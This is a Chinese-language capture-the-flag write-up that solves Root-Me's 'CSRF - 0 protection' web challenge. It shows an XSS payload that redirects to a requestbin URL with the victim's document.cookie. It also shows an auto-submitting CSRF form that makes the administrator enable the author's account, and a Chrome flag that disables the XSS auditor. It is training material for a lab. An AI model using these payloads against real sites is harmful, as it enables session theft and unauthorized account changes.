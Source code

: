 Root-Me [CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
===

該頁面有登入、註冊功能，登入後可以使用 `Contact`、`Profile`、`Private`，三個功能。

## 解題關鍵
1. JavaScript

## 解題過程

### Contact
首先透過 `Contact` 功能，嘗試亂填入資料並送出得到以下訊息。  

```
Your message has been posted. The administrator will contact you later.
```

可想而知，可能是要構造一些惡意的語法，讓管理者去觸發，第一個想到的與上一題一樣，看看是否可以偷到 Cookie，於是構造以下 Payload  

```
<script>
    window.location.assign("http://requestbin.fullcontact.com/1ek6d7k1?cookie=" + document.cookie)
</script>
```

收到的 Requests 也沒有任何參數...，顯然這題不是單純使使用 XSS 偷 Cookie。  

![](img/01.png)

### Private
該頁面僅會顯示如下的訊息。
```
Your account has not been validated by an administrator, please wait.
```

### Profile
該頁面有 `Username` 的 Input box 與 `Status` 的 Check box，但 `Status` 的功能是鎖住的，即便使用開發者模式將他啟用並送出，都會顯示 `You're not an admin!`，到這邊有兩個想法。  

1. 透過 XSS 讓管理者讓特定使用者啟動 `Status`。
2. 透過 XSS 讓管理者將 `Private` 頁面的內容回傳至 `RequestsBin`。

該部分都需要借助 `Content` 的功能，由於確認過沒有任何過濾，可以直接般動整個 `Profile` 的環境，透過開發者工具將 `Profile` 頁面上的 from 程式碼複製下來，並且注意以下改動。  

1. `username` 的參數改為自己的使用者名稱。
2. `status` 加上參數 `on`，並把 `type` 改為 `text`。
3. `form` 加上 `name` 參數
4. 加上最底下的 `submit` 腳本。

```HTML
<form name="attack" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data">
	<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="123456">
	</div>
		<br>		
	<div class="form-group">
		<label>Status:</label>
		<input type="text" name="status" value="on">
	</div>
		<br>	
	<button type="submit">Submit</button>
</form>
<script>document.getElementsByName("attack").submit()</script>
```

然後筆者的 Opera 就跳以下畫面了。
![](img/02.png)

還是用 Chrome 吧，只是要在啟動路徑上加上 `"C:\Program Files (x86)\....\chrome.exe" --args --disable-xss-auditor` 尾段的參數，才會把 XSS 防禦關閉。  

最後成功送出，並且在 `Private` 頁面得到 Flag。  

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
